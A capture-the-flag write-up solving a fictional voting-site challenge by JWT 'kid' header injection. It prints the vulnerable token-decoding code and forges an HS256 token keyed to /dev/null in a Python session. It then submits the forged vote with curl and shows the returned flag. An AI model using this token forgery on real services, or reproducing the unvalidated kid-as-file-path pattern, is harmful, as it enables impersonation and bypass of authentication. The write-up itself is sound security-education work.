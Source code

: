 ```yaml
---
layout: writeup
title: The voting logs ain't making sense
tags: WebX
excerpt: "A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?"
---
```


## Description

A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?


The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution

I ended up solving this challenge in the exact same was as [I can be anyone](./I-can-be-anyone) as such the writeup is practically the same, as it was the same challenge

The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT1337` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```



This is a dupliate challenge so I already knew the exploit was `kid` injection. 

Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT1337", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b8"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0" -H "Content-Type: application/json" -d '{"party":1}'
{"citizen_id":"CIT1337","message":"Vote submitted successfully","party":1,"state":"Izzi","success":true,"the_voting_logs_aint_making_sense_flag":"cysea{you_got_to_be_KIDding_me_b60c85395d}"}
```

And look at that, we get the flag as the reply `cysea{you_got_to_be_KIDding_me_b60c85395d}`
